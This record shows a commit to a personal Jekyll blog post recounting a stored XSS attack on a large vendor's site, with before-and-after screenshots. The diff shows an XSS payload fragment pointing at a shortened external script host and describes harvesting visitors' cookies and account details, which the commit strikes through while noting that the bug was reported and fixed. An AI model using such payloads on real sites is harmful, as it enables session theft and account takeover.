

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md, in a window 1280 px wide and 900 px high, scrolled down 1144 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1980 px from its top, so only the background shows below that.

Commit message:
Update 2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md

````diff
--- a/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
+++ b/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
@@ -68,4 +68,7 @@ payload:
   " script=http//㎭q.cc
 ```
 
-最后顺利注入，挂了个document.cookie，用户点进我的个人主页，我都能获取到cookie、登陆设备、账号等敏感信息
+最后顺利注入，~~挂了个document.cookie，用户点进我的个人主页，我都能获取到cookie、登陆设备、账号等敏感信息~~
+提交了漏洞信息，并且管理员处理的很快，不愧是大厂
+
+本篇文章由leeya_bug(leeyange)自创，文章属亲身经历，禁止抄袭
````
